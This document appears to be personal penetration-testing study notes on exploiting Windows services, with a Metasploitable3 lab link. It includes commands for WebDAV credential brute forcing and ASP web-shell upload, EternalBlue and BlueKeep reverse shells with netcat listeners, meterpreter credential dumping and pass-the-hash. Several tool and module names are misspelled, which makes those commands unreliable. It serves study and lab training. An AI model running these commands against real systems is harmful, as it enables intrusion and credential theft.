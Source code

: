 # Windows Vulns

- Each Windows version have many vulns associate with.
    - Information disclosure: Access confidential data
    - Buffer overflows 
    - Remote code execute
    - Priviege escalation
    - DOS

## Frequently exploited
- SMB (share files and folder)
- IIS (80, 443) - Web server
- WebDAV (80, 443) - File server for web
- RDP (Remote desktop protocol) ~ 3389
- WinRM (Windows remote management) ~ 5986,443

## Vulns scanning
- `search type:exploit name:<service>` search for exploit for some service
    - Sunglass service
        `set payload windows/meterpreter/reverse_tcp`

- `searchsploit <service>` command - search in exploit db
    - smb has exploit `external blue` on Windows 7/8/sv 2008 R2
- Another db exploit that we can use is [db_autopwn](https://github.com/hahwul/metasploit-autopwn)
    - Download the rb script, move it to /usr/share/metaspl../plugins/
    - On `msfconsole` run `load db_autopwn`
- `analyze` command on `msfconsole - Analyze the host and find vulns

## WebDAV

IIS, web server, provide admin GUI for management. IIS supported exe file extensions:
- asp
- aspx
- config
- php

WebDAV, enable a web server to functions as a file server for collaborative
    - WebDav implements auth in the form of username and password.
    - First step of exploit is identify webDAV has been config to run on IIS server
    - After get the legit credential, we can login and upload a malicious .asp payload
    - Tools: `davtest`, `cadaver`

Exploit steps:
- `nmap -sV -p 80,443 --script=http-enum <target>` - simple check if server have webDAV 
- Brute force auth using `hydra -L <wordlists_user> -P <wordlists_pass> <target> http-get <webDAV URI path>`
- Other way `davtest -url <target>/webdav`
    - `davtest -auth <username:pass> ....` output what file we can upload or execute on the webDAV
- `cadaver <target>` -> Provide user and password -> Interact with shell
    - Use web shell in `/usr/share/webshells/asp/webshell.asp` ~ `put <path>`
    - Lauch the webshell by click on it

## External blue:

**Manual**
- WannaCry using this exploit to spreading ransomware
- Specific tool [Auto Blue](https://github.com/3ndG4me/AutoBlue-MS17-010)
    - Define LHOST and port -> Gen shell code
    - Setup netcat listener `nc -nvlp 1234`
    - `python externalblue_exploit7.py <target> <shellcode_path>/sc_x64.bin
    - Netcat will open remote sessions

**Automation:** We can using msf `exploit/ ... ms17_010_externalblue` -> meterpreter.

## BlueKeep - RDP Vulns

CVE-2019-0708

- `msf` exploit modules `cve_20..._bluekeep_rce`
    - Use `show targets` for display targets systems -> `set target <number>`
    - Sometimes Windows system will crash during the exploit

### Badblue
- `search badblue`
- use `bablue_passthru` -> Meterpreter
- `pgrep lsass` -> `migrate <id>` -> check with `getuid`
- `load kiwi`
- `lsa_dump_sam` -> Get hash ntlm
- `hash_dump` to get LM hash

### Pass the hash
- We can use the hash as password for modules `exploit/windows/smb/psexec`
  - `set target` change target if needed.

- `crackmapexec smb <target> -u <user> -H <NTLM_hash>` `-H` as HASH

# Linux vulns

- Apache server
- SSH - 22
- FTP - 21/23
- SAMBA 445


# Nessus

[Nessus Webpage](https://www.tenable.com/products/nessus)

[Lab enviroment](https://github.com/rapid7/metasploitable3)

- Download the free edition
- Change setting and + new scan -> target
- Nessus scan can be import into msf
    - `vulns -p 445` filter vuln for port 445
    - `search cve:<cve_id or year> name:<service>`

# WMAP

WMAP is web vulns scanner. WMAP is fully intergrated with MSF

- Open `msfconsole` -> `load wmap`
- `wmap_sites` Use to add, list and delelte, display site
    - `wmap -a <target>`
- `wmap_targets` add or changing target.
    - `wmap_targets -t <target_url>`
- `wmap_run` `-t` show available modules
    - `-e` Use all availabe modules
- `wmap_vulns -l` list vulns


- module `http_put` put or delete file on server
    - Set URI path Rhosts and run